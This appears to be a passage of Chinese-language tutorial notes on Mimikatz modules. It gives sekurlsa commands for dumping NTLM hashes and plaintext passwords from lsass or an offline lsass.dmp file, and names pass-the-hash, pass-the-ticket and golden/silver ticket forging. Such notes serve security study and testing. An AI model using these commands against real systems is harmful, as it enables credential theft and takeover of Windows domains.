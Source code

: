 #### [sekurlsa::msv](#toc_sekurlsamsv)

提取 NTLM/LM hash 凭证

#### [sekurlsa::ssp/livessp/tspkg](#toc_sekurlsassplivessptspkg)

抓取对应的明文密码

#### [sekutlsa::logonPasswords](#toc_sekutlsalogonpasswords)

抓取以上各种密码

#### [sekurlsa::process](#toc_sekurlsaprocess)

将自己的进程切换到 lsass 进程中，之前只是注入读取信息

#### [sekurlsa::minidump file](#toc_sekurlsaminidump-file)

这个模块可以读取已经打包的内存信息，

比如上述命令已经将 lsass 进程中的内存信息保存为 dmp 文件了 那么此时我们可以离线读取其中的信息 但是需要指定文件名。

加载 dmp 文件，并导出其中的明文密码

```plain
 sekurlsa::minidump lsass.dmp

 sekurlsa::logonpasswords full
```

#### [sekurlsa::pth](#toc_sekurlsapth)

pass-the-hash hash 传递攻击

### [Kerberos 模块（常用于金银票据）](#toc_kerberos)

#### [kerberos::list](#toc_kerberoslist)

列出当前所有的票据（等同于 klist）

#### [kerberos::purge](#toc_kerberospurge)

清除系统中的票据

#### [kerberos::ptt](#toc_kerberosptt)

Pass The Ticket 即票据传递

#### [Kerberos::golden](#toc_kerberosgolden)

伪造票据 如金银票据

具体的操作看之前总结的黄金票据与白银票据

### [Crypto（导出未标记为可导出的证书）](#toc_crypto)
